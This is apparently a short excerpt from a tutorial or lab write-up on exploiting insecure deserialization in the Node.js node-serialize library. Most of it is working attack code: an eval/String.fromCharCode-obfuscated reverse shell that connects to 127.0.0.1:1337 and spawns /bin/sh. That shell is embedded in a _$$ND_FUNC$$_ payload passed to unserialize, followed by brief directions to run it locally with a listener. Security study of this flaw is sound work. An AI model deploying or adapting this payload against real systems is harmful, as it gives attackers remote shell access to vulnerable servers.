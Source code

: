 ```javascript
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

We must put this in our final payload called localtest.js
```javascript
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"};
serialize.unserialize(payload);
```
and run locally, while also listening on port **1337**.
